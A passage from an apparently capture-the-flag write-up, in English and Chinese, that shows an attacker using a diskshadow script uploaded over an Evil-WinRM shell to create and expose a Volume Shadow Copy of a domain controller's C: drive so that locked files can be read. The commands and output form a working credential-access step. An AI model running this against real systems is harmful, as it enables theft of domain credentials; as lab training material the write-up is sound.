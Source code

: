 Because my shell is not an interactive desktop, I’ll want to use the scripting mode. It involves just putting `diskshadow` commands in a file, one per line. Pentestlab Blog has a [good breakdown](https://pentestlab.blog/tag/diskshadow/) that includes a section on using `diskshadow`. It’s written as if you have admin and just have to deal with accessing the file, so my strategy will be slightly different.

I’m going to create a file that mounts the c drive as another drive using the VSS. I’ll be able to read files from there that would be locked in c.

[PentestLab blog](https://pentestlab.blog/tag/diskshadow/)

原理大致是挂载目录吧，这样进程一直占用的文件，我们也能读取



kali：

```bash
└─# vim vss.dsh
                                                                                                                                                                  
┌──(root💀kali)-[~/Blackfield]
└─# unix2dos vss.dsh
unix2dos: converting file vss.dsh to DOS format...
                                                                                                                                                                  
┌──(root💀kali)-[~/Blackfield]
└─# cat vss.dsh
set context persistent nowriters
set metadata c:\programdata\df.cab
set verbose on
add volume c: alias df
create
expose %df% z:
```



靶机：

```powershell
*Evil-WinRM* PS C:\windows\system32> upload vss.dsh c:\programdata\vss.dsh
                                        
Info: Uploading /root/Blackfield/vss.dsh to c:\programdata\vss.dsh 
                                        
Data: 176 bytes of 176 bytes copied 
                                        
Info: Upload successful! 
*Evil-WinRM* PS C:\windows\system32> diskshadow /s c:\programdata\vss.dsh
Microsoft DiskShadow version 1.0
Copyright (C) 2013 Microsoft Corporation
On computer:  DC01,  9/17/2023 5:06:10 AM

-> set context persistent nowriters
-> set metadata c:\programdata\df.cab
-> set verbose on
-> add volume c: alias df
-> create

Alias df for shadow ID {369de976-3d85-48d0-b5b0-1baea0f3238c} set as environment variable.
Alias VSS_SHADOW_SET for shadow set ID {c1a2458e-8903-4c61-95b9-b71367ae5fac} set as environment variable.
Inserted file Manifest.xml into .cab file df.cab
Inserted file Dis6A8F.tmp into .cab file df.cab

Querying all shadow copies with the shadow copy set ID {c1a2458e-8903-4c61-95b9-b71367ae5fac}

	* Shadow copy ID = {369de976-3d85-48d0-b5b0-1baea0f3238c}		%df%
		- Shadow copy set: {c1a2458e-8903-4c61-95b9-b71367ae5fac}	%VSS_SHADOW_SET%
		- Original count of shadow copies = 1
		- Original volume name: \\?\Volume{6cd5140b-0000-0000-0000-602200000000}\ [C:\]
```